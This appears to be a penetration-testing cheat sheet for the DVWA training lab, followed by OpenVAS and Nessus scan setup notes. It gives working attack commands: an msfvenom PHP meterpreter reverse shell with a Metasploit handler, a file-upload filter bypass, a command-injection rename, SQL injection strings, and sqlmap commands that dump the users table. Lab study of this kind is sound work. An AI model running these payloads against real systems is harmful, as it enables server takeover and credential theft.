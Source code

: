 # File Upload High Difficulty/Chaining multiple Vulnerabilities
```
Create a msfvenom payload on your kali machine 
>msfvenom ‐p php/meterpreter/reverse_tcp LHOST=127.0.0.1  LPORT=4444 ‐f raw >exploit.php
Now run Metasploit and start a multi‐handler to listen to PHP  reverse sessions. 
>use exploit/multi/handler set payload  >php/meterpreter/reverse_tcp
If the server checks for the file type as well. We  can bypass it by appending content type header in the file  itself. So, add GIF89a; on top of your exploit file using nano. Rename it to  exploit.php.jpeg and upload it.
Rename it using command injection
| mv "/usr/share/dvwa/hackable/uploads/exploit.php.jpeg"  "/usr/share/dvwa/hackable/uploads/exploit.php"
```

# SQL Injection - Easy
```
> 1‘ OR 1=1 #
To do complex commands, intercepts a normal request with burp and save to txt document.
>sqlmap -r request.txt –dbs
>sqlmap ‐r request.txt ‐D dvwa ‐‐tables
>sqlmap ‐r request.txt ‐D dvwa ‐T users ‐‐columns
>sqlmap ‐r request.txt ‐D dvwa ‐T users ‐‐dump‐all

For harder use 
UNION SELECT user, password FROM users #
And put it in the option value of a dropdown

For Hardest use 
1’ UNION SELECT user, password FROM users #
```

# Vulnerability Analysis
In Parrot 
Open OpenVas
127.0.0.1:9392/login
admin/password
Scans -> Task
Task Wizard - Enter target IP
When completed view the report

In Windows (Nessus)
https://localhost:8834
admin/password
Policies -> New policy
Advanced Scan
    Basic
        Set name
        Set desc
    Discovery
        Port scanning
            Tick Verify open TCP ports found by local port enumarators
    Advanced
        Max concurrent TCP both 'unlimited'
    Credentials Tab
        Windows
            Username and password (already have, or found?)
Save
Scans
    Create new scan
    User defined